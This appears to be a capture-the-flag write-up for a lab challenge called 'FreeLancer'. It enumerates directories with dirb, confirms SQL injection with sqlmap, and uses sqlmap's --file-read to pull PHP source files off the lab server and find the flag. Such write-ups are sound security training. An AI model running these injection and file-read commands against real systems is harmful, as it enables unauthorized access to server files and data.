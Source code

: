 # FreeLancer
![Screenshot from 2021-08-16 17-56-39](https://user-images.githubusercontent.com/87865134/129553366-2dd0e7e3-e195-4809-aad5-839d1d69786c.png)

## - Information gathering
- Use `dirb` to find hidden directories and files
```
dirb http://139.59.166.56:30387/
```
![Screenshot from 2021-08-16 18-17-02](https://user-images.githubusercontent.com/87865134/129555520-6fd78927-00e8-44bc-a6cd-b7ff707ccc20.png)


> Found hidden directory `administrat`

- View source code => found url `portfolio.php?id=1`

![Screenshot from 2021-08-16 17-57-21](https://user-images.githubusercontent.com/87865134/129553541-f63e8b12-226e-4bf8-b425-bca70168eccf.png)

## - Analysis vulnerabilities
- Test **SQLi** in url `/portfolio.php?id=1`
  - use `sqlmap`

  ``` 
  sqlmap -u "http://139.59.166.56:30387/portfolio.php?id=1" 
  ```
  > => SQLi

![Screenshot from 2021-08-16 18-04-59](https://user-images.githubusercontent.com/87865134/129554258-f54a31b5-7375-4698-b77f-173264ba21f5.png)

- Navigate to url `/administrat/` 

![Screenshot from 2021-08-16 18-07-14](https://user-images.githubusercontent.com/87865134/129554493-488b2528-1a62-474c-8470-46de99f2ab1c.png)

> `/administrat/` has file `index.php` 

## - Exploit
- Use `sqlmap` to read file `index.php` in directory `/administrat/`
```
sqlmap -u "http://139.59.166.56:30387/portfolio.php?id=1" --file-read=/var/www/html/administrat/index.php
```
![Screenshot from 2021-08-16 18-09-41](https://user-images.githubusercontent.com/87865134/129554772-40eb4f08-e3fe-4b11-a861-4e239df82dbc.png)

> file is saved in `/home/ndqk/.local/share/sqlmap/output/139.59.166.56/files/_var_www_html_administrat_index.php `

- open file to read   

![Screenshot from 2021-08-16 18-11-27](https://user-images.githubusercontent.com/87865134/129554974-d7887c54-e518-4114-9ab5-a2576234c0fd.png)

- Code:
```php
if(isset($_SESSION["loggedin"]) && $_SESSION["loggedin"] === true){
  header("location: panel.php");
  exit;
}
```
> if login successfully then go to `panel.php` => `panel.php` may contain sensitive data

- Use `sqlmap` to read file `panel.php`
```
sqlmap -u "http://139.59.166.56:30387/portfolio.php?id=1" --file-read=/var/www/html/administrat/panel.php
```
![Screenshot from 2021-08-16 18-15-14](https://user-images.githubusercontent.com/87865134/129555336-1ba30512-8281-420b-b66f-eb8b9802b8b0.png)

![Screenshot from 2021-08-16 18-19-30](https://user-images.githubusercontent.com/87865134/129555787-6176cbe9-2134-4274-9da2-46b175b9d4e6.png)

> Found flag

## - Description
> **category:** SQL injection
